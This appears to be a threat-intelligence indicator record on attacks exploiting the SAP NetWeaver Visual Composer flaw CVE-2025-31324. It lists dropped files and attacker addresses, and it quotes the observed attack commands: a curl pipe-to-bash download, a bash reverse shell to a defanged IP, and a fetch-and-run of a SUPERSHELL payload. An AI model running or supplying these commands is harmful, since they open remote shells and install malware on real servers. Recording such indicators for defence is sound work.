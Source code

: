 * sha256: <sha256> — Downloaded by ansgdhs.bat named 0g9pglZr74.ini. This suspicious file is downloaded from 101.32.26[.]15.
* sha256: <sha256> — Downloaded from 101.32.26[.]15 named shell.jsp

## Objects
### vulnerability — Vulnerability object describing a common vulnerability enumeration which can describe published, unpublished, under review or embargo vulnerability for software, equipments or hardware.
* [External analysis] vulnerability: CVE-2025-31324
* [Other] datetime: 2025-04-24T16:50:27.706000+00:00
* [Other] datetime: 2025-05-02T17:13:30.650000+00:00
* [Other] text: PUBLISHED
* [External analysis] link: https://me.sap.com/notes/3594142
* [External analysis] link: https://url.sap/sapsecuritypatchday
* [Other] text: SAP NetWeaver Visual Composer Metadata Uploader is not protected with a proper authorization, allowing unauthenticated agent to upload potentially malicious executable binaries that could severely harm the host system. This could significantly affect the confidentiality, integrity, and availability of the targeted system.

### script — Object describing a computer program written to be run in a special run-time environment. The script or shell script can be used for malicious activities but also as support tools for threat analysts.
* [Other] text: curl 138.68.61[.]82|bash
* [Other] text: Bash
* [Other] text: Downloads and executes this command bash -i >& /dev/tcp/138.68.61[.]82/4544 0>&1
* [Other] text: Malicious

### script — Object describing a computer program written to be run in a special run-time environment. The script or shell script can be used for malicious activities but also as support tools for threat analysts.
* [Other] text: bash -i >& /dev/tcp/138.68.61[.]82/4544 0>&1
* [Other] text: Bash
* [Other] text: Establishes reverse shell from a compromised SAP server
* [Other] text: Malicious

### script — Object describing a computer program written to be run in a special run-time environment. The script or shell script can be used for malicious activities but also as support tools for threat analysts.
* [Other] text: curl -sk hxxps://overseas-recognized-athens-oakland.trycloudflare[.]com/v2.js || wget --no-check-certificate -q -O - hxxps://overseas-recognized-athens-oakland.trycloudflare[.]com/v2.js) | bash -sh
* [Other] text: Bash
* [Other] text: Attempted to download reported SUPERSHELL payload
* [Other] text: Malicious
